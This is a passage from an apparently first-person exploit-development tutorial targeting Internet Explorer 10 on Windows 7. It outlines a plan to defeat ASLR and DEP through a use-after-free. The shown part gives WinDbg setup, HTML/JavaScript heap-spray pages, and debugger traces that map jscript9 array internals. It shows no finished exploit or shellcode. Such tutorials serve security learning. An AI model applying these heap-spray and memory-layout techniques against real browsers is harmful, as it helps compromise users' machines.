








For this exploit I’m using a VirtualBox VM with Windows 7 64-bit SP1 and the version of Internet Explorer 10 downloaded from here.
To successfully exploit IE 10 we need to defeat both ASLR and DEP. We’re going to exploit a UAF to modify the length of an array so that we can read and write through the whole process address space. The ability of reading/writing wherever we want is a very powerful capability. From there we can go two ways:
- Run ActiveX objects (God mode)
- Execute regular shellcode
For the phase UAF → arbitrary read/write we’re going to use a method described here.
Reading that paper is not enough to fully understand the method because some details are missing and I also found some differences between theory and practice.
My goal is not to simply describe a method, but to show all the work involved in the creation of a complete exploit. The first step is to do a little investigation with WinDbg and discover how arrays and other objects are laid out in memory.
Reverse Engineering IE
Some objects we want to analyze are:
- Array
- LargeHeapBlock
- ArrayBuffer
- Int32Array
Setting up WinDbg
By now you should already have become familiar with WinDbg and set it up appropriately, but let’s make sure. First, load WinDbg (always the 32-bit version, as administrator), press CTRL-S and enter the symbol path. For instance, here’s mine:
SRV*C:\WinDbgSymbols*http://msdl.microsoft.com/download/symbols
Remember that the first part is the local directory for caching the symbols downloaded from the server.
Hit OK and then save the workspace by clicking on File→Save Workspace.
Now run Internet Explorer 10 and in WinDbg hit F6 to Attach to process. You’ll see that iexplore.exe appears twice in the list. The first instance of iexplore.exe is the main process whereas the second is the process associated with the first tab opened in IE. If you open other tabs, you’ll see more instances of the same process. Select the second instance like shown in the picture below:
{kind=link}
This is the layout I use for WinDbg:

Set the windows the way you like and then save the workspace again.
{kind=link}
Array
Let’s start with the object Array. Create an html file with the following code:
<html>
<head>
<script language="javascript">
alert("Start");
var a = new Array(0x123);
for (var i = 0; i < 0x123; ++i)
a[i] = 0x111;
alert("Done");
</script>
</head>
<body>
</body>
</html>
Open the file in IE, allow blocked content, and when the dialog box with the text Start pops up run WinDbg, hit F6 and attach the debugger to the second instance of iexplore.exe like you did before. Hit F5 (go) to resume execution and close the dialog box in IE. Now you should be seeing the second dialog with the message Done.
Go back in WinDbg and try to search the memory for the content of the array. As you can see by looking at the source code, the array contains a sequence of 0x111. Here’s what we get:
0:004> s-d 0 L?ffffffff 111 111 111 111
We got nothing! How odd… But even if we had found the array in memory, that wouldn’t have been enough to locate the code which does the actual allocation. We need a smarter way.
Why don’t we spray the heap? Let’s change the code:
<html>
<head>
<script language="javascript">
alert("Start");
var a = new Array();
for (var i = 0; i < 0x10000; ++i) {
a[i] = new Array(0x1000/4); // 0x1000 bytes = 0x1000/4 dwords
for (var j = 0; j < a[i].length; ++j)
a[i][j] = 0x111;
}
alert("Done");
</script>
</head>
<body>
</body>
</html>
After updating the html file, resume the execution in WinDbg (F5), close the Done dialog box in IE and reload the page (F5). Close the dialog box (Start) and wait for the next dialog box to appear. Now let’s have a look at IE’s memory usage by opening the Task Manager:
{kind=link}
We allocated about 550 MB. We can use an application called VMMap (download) to get a graphical depiction of our heap spray.
Open VMMap and select the right instance of iexplore.exe as shown in the picture below:
{kind=link}
Now go to View→Fragmentation View. You’ll see something like this:

The area in yellow is the memory allocated through the heap spray. Let’s try to analyze the memory at the address 0x1ffd0000, which is in the middle of our data:
{kind=link}

Let’s make it sure that this is indeed one of our arrays by modifying the code a bit:
{kind=link}
<html>
<head>
<script language="javascript">
alert("Start");
var a = new Array();
for (var i = 0; i < 0x10000; ++i) {
a[i] = new Array(0x1234/4); // 0x1234/4 = 0x48d
for (var j = 0; j < a[i].length; ++j)
a[i][j] = 0x123;
}
alert("Done");
</script>
</head>
<body>
</body>
</html>
We repeat the process and here’s the result:

As we can see, now the array contains the values 0x247. Let’s try something different:
{kind=link}
<html>
<head>
<script language="javascript">
alert("Start");
var a = new Array();
for (var i = 0; i < 0x10000; ++i) {
a[i] = new Array(0x1000/4);
for (var j = 0; j < a[i].length; ++j)
a[i][j] = j;
}
alert("Done");
</script>
</head>
<body>
</body>
</html>
Now we get the following:

Now the array contains the odd numbers starting with 1. We know that our array contains the numbers
{kind=link}
1 2 3 4 5 6 7 8 9 ...
but we get
3 5 7 9 11 13 15 17 19 ...
It’s clear that the number n is represented as n*2 + 1. Why is that? You should know that an array can also contain references to objects so there must be a way to tell integers and addresses apart. Since addresses are multiple of 4, by representing any integer as an odd number, it’ll never be confused with a reference. But what about a number such as 0x7fffffff which is the biggest positive number in 2-complement? Let’s experiment a bit:
<html>
<head>
<script language="javascript">
alert("Start");
var a = new Array();
for (var i = 0; i < 0x10000; ++i) {
a[i] = new Array(0x1000/4);
a[i][0] = 0x7fffffff;
a[i][1] = -2;
a[i][2] = 1.2345;
a[i][3] = document.createElement("div");
}
alert("Done");
</script>
</head>
<body>
</body>
</html>
Here’s what our array looks like now:

The number 0x7fffffff is too big to be stored directly so, instead, IE stores a reference to a JavascriptNumber object. The number -2 is stored directly because it can’t be confused with an address, having its highest bit set.
{kind=link}
As you should know by now, the first dword of an object is usually a pointer to its vftable. As you can see from the picture above, this is useful to determine the identity of an object.
Now let’s find out what code allocates the array. We can see that there are probably two headers:
{kind=link}
The first header tells us that the allocated block is 0x1010 bytes. Indeed, the allocated block has 0x10 bytes of header and 0x1000 bytes of actual data. Because we know that one of our array we’ll be at the address 0x1ffd0000, we can put hardware breakpoints (on write) on fields of both headers. This way we can find out both what code allocates the block and what code creates the object.
First reload the page and stop at the Start dialog box. Go to WinDbg and stop the execution (CTRL+Break). Now set the two breakpoints:
0:004> ba w4 1ffd0000+4 0:004> ba w4 1ffd0000+14 0:004> bl 0 e 1ffd0004 w 4 0001 (0001) 0:**** 1 e 1ffd0014 w 4 0001 (0001) 0:****
Hit F5 (ignore the error messages) and close the dialog box in IE. When the first breakpoint is triggered, display the stack:
0:007> k 20 ChildEBP RetAddr 0671bb30 6ea572d8 jscript9!Recycler::LargeAlloc+0xa1 <---------------------- 0671bb4c 6eb02c47 jscript9!Recycler::AllocZero+0x91 <---------------------- 0671bb8c 6ea82aae jscript9!Js::JavascriptArray::DirectSetItem_Full+0x3fd <----------------- (*) 0671bc14 05f2074b jscript9!Js::JavascriptOperators::OP_SetElementI+0x1e0 WARNING: Frame IP not in any known module. Following frames may be wrong. 0671bc48 6ea77461 0x5f2074b 0671bde4 6ea55cf5 jscript9!Js::InterpreterStackFrame::Process+0x4b47 0671bf2c 05f80fe9 jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>+0x305 0671bf38 6ea51f60 0x5f80fe9 0671bfb8 6ea520ca jscript9!Js::JavascriptFunction::CallRootFunction+0x140 0671bfd0 6ea5209f jscript9!Js::JavascriptFunction::CallRootFunction+0x19 0671c018 6ea52027 jscript9!ScriptSite::CallRootFunction+0x40 0671c040 6eafdf75 jscript9!ScriptSite::Execute+0x61 0671c0cc 6eafdb57 jscript9!ScriptEngine::ExecutePendingScripts+0x1e9 0671c154 6eafe0b7 jscript9!ScriptEngine::ParseScriptTextCore+0x2ad 0671c1a8 069cb60c jscript9!ScriptEngine::ParseScriptText+0x5b 0671c1e0 069c945d MSHTML!CActiveScriptHolder::ParseScriptText+0x42 0671c230 069bb52f MSHTML!CJScript9Holder::ParseScriptText+0x58 0671c2a4 069cc6a4 MSHTML!CScriptCollection::ParseScriptText+0x1f0 0671c394 069cc242 MSHTML!CScriptData::CommitCode+0x36e 0671c40c 069cbe6e MSHTML!CScriptData::Execute+0x233 0671c420 069c9b49 MSHTML!CHtmScriptParseCtx::Execute+0x89 0671c498 067d77cc MSHTML!CHtmParseBase::Execute+0x17c 0671c4c4 755862fa MSHTML!CHtmPost::Broadcast+0x88 0671c5c4 069c3273 user32!InternalCallWinProc+0x23 0671c5dc 069c31ff MSHTML!CHtmPost::Run+0x1c 0671c5f4 069c34f3 MSHTML!PostManExecute+0x5f 0671c610 069c34b2 MSHTML!PostManResume+0x7b 0671c650 06830dc9 MSHTML!CHtmPost::OnDwnChanCallback+0x3a 0671c660 0677866c MSHTML!CDwnChan::OnMethodCall+0x19 0671c6b4 067784fa MSHTML!GlobalWndOnMethodCall+0x169 0671c700 755862fa MSHTML!GlobalWndProc+0xd7 0671c72c 75586d3a user32!InternalCallWinProc+0x23
We can see three things:
- IE uses a custom allocator.
- The array is of type jscript9!Js::JavascriptArray.
- The block is probably allocated when we set the value of the first item of the array (*).
Let’s return from the current call with Shift+F11. We land here:
6e9e72ce 6a00 push 0 6e9e72d0 50 push eax 6e9e72d1 51 push ecx 6e9e72d2 56 push esi 6e9e72d3 e80f34ffff call jscript9!Recycler::LargeAlloc (6e9da6e7) 6e9e72d8 c70000000000 mov dword ptr [eax],0 ds:002b:1ffd0010=00000000 <----- we are here 6e9e72de 5e pop esi 6e9e72df 5d pop ebp 6e9e72e0 c20400 ret 4
Let’s hit Shift+F11 again:
6ea92c3f 51 push ecx 6ea92c40 8bca mov ecx,edx 6ea92c42 e89a67f4ff call jscript9!Recycler::AllocZero (6e9d93e1) 6ea92c47 8b55e8 mov edx,dword ptr [ebp-18h] ss:002b:04d2c058=04d2c054 <----- we are here 6ea92c4a 8b0a mov ecx,dword ptr [edx] 6ea92c4c c70000000000 mov dword ptr [eax],0
EAX points to the buffer, so we can put a breakpoint on 6ea92c47. First let’s write the address of EIP so that it doesn’t depend on the specific base address of the module. First of all we’re in jscript9, as we can see from this:
0:007> !address @eip
Mapping file section regions...
Mapping module regions...
Mapping PEB regions...
Mapping TEB and stack regions...
Mapping heap regions...
Mapping page heap regions...
Mapping other regions...
Mapping stack trace database regions...
Mapping activation context regions...
Usage: Image
Base Address: 6e9d1000
End Address: 6ec54000
Region Size: 00283000
State: 00001000 MEM_COMMIT
Protect: 00000020 PAGE_EXECUTE_READ
Type: 01000000 MEM_IMAGE
Allocation Base: 6e9d0000
Allocation Protect: 00000080 PAGE_EXECUTE_WRITECOPY
Image Path: C:\Windows\SysWOW64\jscript9.dll
Module Name: jscript9 <-----------------------------------------
Loaded Image Name: C:\Windows\SysWOW64\jscript9.dll
Mapped Image Name:
More info: lmv m jscript9
More info: !lmi jscript9
More info: ln 0x6ea92c47
More info: !dh 0x6e9d0000
Unloaded modules that overlapped the address in the past:
BaseAddr EndAddr Size
6ea90000 6ebed000 15d000 VBoxOGL-x86.dll
6e9b0000 6eb0d000 15d000 VBoxOGL-x86.dll
Unloaded modules that overlapped the region in the past:
BaseAddr EndAddr Size
6ebf0000 6eccb000 db000 wined3dwddm-x86.dll
6ea90000 6ebed000 15d000 VBoxOGL-x86.dll
6e940000 6ea84000 144000 VBoxOGLcrutil-x86.dll
6eb10000 6ebeb000 db000 wined3dwddm-x86.dll
6e9b0000 6eb0d000 15d000 VBoxOGL-x86.dllSo, the RVA is the following:
0:007> ? @eip-jscript9 Evaluate expression: 797767 = 000c2c47
The creation of the array (its data, to be exact) can be logged with the following breakpoint:
bp jscript9+c2c47 ".printf \"new Array Data: addr = 0x%p\\n\",eax;g"
Note that we need to escape the double quotes and the back slash because we’re already inside a string. Also, the command g (go) is used to resume the execution after the breakpoint is triggered, because we want to print a message without stopping the execution.
Let’s get back to what we were doing. We set two hardware breakpoints and only the first was triggered, so let’s get going. After we hit F5 one more time, the second breakpoint is triggered and the stack looks like this:
0:007> k 20 ChildEBP RetAddr 0671bb8c 6ea82aae jscript9!Js::JavascriptArray::DirectSetItem_Full+0x40b <---------------- 0671bc14 05f2074b jscript9!Js::JavascriptOperators::OP_SetElementI+0x1e0 WARNING: Frame IP not in any known module. Following frames may be wrong. 0671bc48 6ea77461 0x5f2074b 0671bde4 6ea55cf5 jscript9!Js::InterpreterStackFrame::Process+0x4b47 0671bf2c 05f80fe9 jscript9!Js::InterpreterStackFrame::InterpreterThunk<1>+0x305 0671bf38 6ea51f60 0x5f80fe9 0671bfb8 6ea520ca jscript9!Js::JavascriptFunction::CallRootFunction+0x140 0671bfd0 6ea5209f jscript9!Js::JavascriptFunction::CallRootFunction+0x19 0671c018 6ea52027 jscript9!ScriptSite::CallRootFunction+0x40 0671c040 6eafdf75 jscript9!ScriptSite::Execute+0x61 0671c0cc 6eafdb57 jscript9!ScriptEngine::ExecutePendingScripts+0x1e9 0671c154 6eafe0b7 jscript9!ScriptEngine::ParseScriptTextCore+0x2ad 0671c1a8 069cb60c jscript9!ScriptEngine::ParseScriptText+0x5b 0671c1e0 069c945d MSHTML!CActiveScriptHolder::ParseScriptText+0x42 0671c230 069bb52f MSHTML!CJScript9Holder::ParseScriptText+0x58 0671c2a4 069cc6a4 MSHTML!CScriptCollection::ParseScriptText+0x1f0 0671c394 069cc242 MSHTML!CScriptData::CommitCode+0x36e 0671c40c 069cbe6e MSHTML!CScriptData::Execute+0x233 0671c420 069c9b49 MSHTML!CHtmScriptParseCtx::Execute+0x89 0671c498 067d77cc MSHTML!CHtmParseBase::Execute+0x17c 0671c4c4 755862fa MSHTML!CHtmPost::Broadcast+0x88 0671c5c4 069c3273 user32!InternalCallWinProc+0x23 0671c5dc 069c31ff MSHTML!CHtmPost::Run+0x1c 0671c5f4 069c34f3 MSHTML!PostManExecute+0x5f 0671c610 069c34b2 MSHTML!PostManResume+0x7b 0671c650 06830dc9 MSHTML!CHtmPost::OnDwnChanCallback+0x3a 0671c660 0677866c MSHTML!CDwnChan::OnMethodCall+0x19 0671c6b4 067784fa MSHTML!GlobalWndOnMethodCall+0x169 0671c700 755862fa MSHTML!GlobalWndProc+0xd7 0671c72c 75586d3a user32!InternalCallWinProc+0x23 0671c7a4 755877c4 user32!UserCallWinProcCheckWow+0x109 0671c804 7558788a user32!DispatchMessageWorker+0x3bc
By comparing the last two stack traces, we can see that we’re still in the same call of jscript9!Js::JavascriptArray::DirectSetItem_Full. So, DirectSetItem_Full first allocates a block of 0x1010 bytes through jscript9!Recycler::AllocZero and then initializes the object.
But if all this happens inside jscript9!Js::JavascriptArray::DirectSetItem_Full, then the JavascriptArray instance has already been created. Let’s try to break on the constructor. First let’s make sure that it exists:
0:007> x jscript9!Js::JavascriptArray::JavascriptArray 6ea898d6 jscript9!Js::JavascriptArray::JavascriptArray (<no parameter info>) 6ead481d jscript9!Js::JavascriptArray::JavascriptArray (<no parameter info>) 6eb28b61 jscript9!Js::JavascriptArray::JavascriptArray (<no parameter info>)
We got three addresses.
Let’s delete the previous breakpoints with bc *, hit F5 and reload the page in IE. At the first dialog box, let’s go back in WinDbg. Now let’s put a breakpoint at each one of the three addresses:
0:006> bp 6ea898d6 0:006> bp 6ead481d 0:006> bp 6eb28b61 0:006> bl 0 e 6ea898d6 0001 (0001) 0:**** jscript9!Js::JavascriptArray::JavascriptArray 1 e 6ead481d 0001 (0001) 0:**** jscript9!Js::JavascriptArray::JavascriptArray 2 e 6eb28b61 0001 (0001) 0:**** jscript9!Js::JavascriptArray::JavascriptArray
Hit F5 and close the dialog box. Mmm… the Done dialog box appears and none of our breakpoints is triggered. How odd…
Let’s see if we find something interesting in the list of symbols:
0:006> x jscript9!Js::JavascriptArray::* 6ec61e36 jscript9!Js::JavascriptArray::IsEnumerable (<no parameter info>) 6eabff71 jscript9!Js::JavascriptArray::GetFromIndex (<no parameter info>) 6ec31bed jscript9!Js::JavascriptArray::BigIndex::BigIndex (<no parameter info>) 6ec300ee jscript9!Js::JavascriptArray::SetEnumerable (<no parameter info>) 6eb94bd9 jscript9!Js::JavascriptArray::EntrySome (<no parameter info>) 6eace48c jscript9!Js::JavascriptArray::HasItem (<no parameter info>) 6ea42530 jscript9!Js::JavascriptArray::`vftable' = <no type information> 6ec31a2f jscript9!Js::JavascriptArray::BigIndex::SetItem (<no parameter info>) 6ec301d1 jscript9!Js::JavascriptArray::IsDirectAccessArray (<no parameter info>) 6eacab83 jscript9!Js::JavascriptArray::Sort (<no parameter info>) 6ecd5500 jscript9!Js::JavascriptArray::EntryInfo::Map = <no type information> 6eb66721 jscript9!Js::JavascriptArray::EntryIsArray (<no parameter info>) 6ec2fd64 jscript9!Js::JavascriptArray::GetDiagValueString (<no parameter info>) 6ec2faeb jscript9!Js::JavascriptArray::GetNonIndexEnumerator (<no parameter info>) 6ec3043a jscript9!Js::JavascriptArray::Unshift<Js::JavascriptArray::BigIndex> (<no parameter info>) 6eb4ba72 jscript9!Js::JavascriptArray::EntryReverse (<no parameter info>) 6eaed10f jscript9!Js::JavascriptArray::SetLength (<no parameter info>) 6eacaadf jscript9!Js::JavascriptArray::EntrySort (<no parameter info>) 6ec306c9 jscript9!Js::JavascriptArray::ToLocaleString<Js::JavascriptArray> (<no parameter info>) 6eb5f4ce jscript9!Js::JavascriptArray::BuildSegmentMap (<no parameter info>) 6ec2fef5 jscript9!Js::JavascriptArray::Freeze (<no parameter info>) 6ec31c5f jscript9!Js::JavascriptArray::GetLocaleSeparator (<no parameter info>) 6ecd54f0 jscript9!Js::JavascriptArray::EntryInfo::LastIndexOf = <no type information> 6eb9b990 jscript9!Js::JavascriptArray::EntryUnshift (<no parameter info>) 6ec30859 jscript9!Js::JavascriptArray::ObjectSpliceHelper<unsigned int> (<no parameter info>) 6ec31ab5 jscript9!Js::JavascriptArray::BigIndex::operator+ (<no parameter info>) 6ea898d6 jscript9!Js::JavascriptArray::JavascriptArray (<no parameter info>) 6eb5f8f5 jscript9!Js::JavascriptArray::ArrayElementEnumerator::ArrayElementEnumerator (<no parameter info>) 6ec30257 jscript9!Js::JavascriptArray::IndexTrace<unsigned int>::SetItem (<no parameter info>) 6ead481d jscript9!Js::JavascriptArray::JavascriptArray (<no parameter info>) 6eac281d jscript9!Js::JavascriptArray::ConcatArgs<unsigned int> (<no parameter info>) 6ecd5510 jscript9!Js::JavascriptArray::EntryInfo::Reduce = <no type information> 